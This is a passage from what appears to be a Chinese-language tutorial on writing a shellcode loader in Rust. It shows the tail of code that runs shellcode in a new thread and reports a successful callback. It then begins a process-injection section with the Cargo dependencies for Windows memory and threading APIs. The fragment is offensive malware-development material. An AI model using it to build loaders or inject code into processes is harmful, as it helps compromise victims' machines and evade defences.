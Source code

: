 ```plain
        let thread_exec = CreateThread(std::ptr::null_mut(), 0, Some(std::mem::transmute(mem_alloc)), std::ptr::null_mut(), 0, &mut thread_id);
        WaitForSingleObject(thread_exec, 0xFFFFFFFF);   //等待线程执行
    }
}
```

测试上线成功

[![](assets/1699257255-f9ae1a4a8b197bb11f298b30d0b0c365.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232143-dc6a4506-7b25-1.png)

## 进程注入

上面介绍了 shellcode 的直接执行，下面我们可以进行进程注入的操作，这里我们多引入一个==sysinfo==的库  
首先还是往==Cargo.toml==引入以下依赖

```plain
sysinfo = "0.29.10"
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory", "Win32_System_Diagnostics_Debug"] }
```
